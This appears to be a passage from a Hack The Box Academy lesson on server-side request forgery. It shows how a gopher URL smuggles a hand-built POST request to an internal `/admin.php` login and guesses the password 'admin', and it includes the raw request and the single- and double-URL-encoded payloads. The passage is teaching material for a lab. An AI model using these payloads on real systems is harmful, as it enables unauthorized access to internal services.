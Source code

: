 ![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_4.png)

As we can see, the admin endpoint is protected by a login prompt. From the HTML form, we can deduce that we need to send a POST request to `/admin.php` containing the password in the `adminpw` POST parameter. However, there is no way to send this POST request using the `http://` URL scheme.

Instead, we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

Assuming we want to try common weak passwords, such as `admin`, we can send the following POST request:

Code: http

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it. Otherwise, we will get a `Malformed URL` error. After URL encoding the entire gopher URL one more time, we can finally send the following request:

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

As we can see, the internal admin endpoint accepts our provided password, and we can access the admin dashboard:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_exploit_5.png)
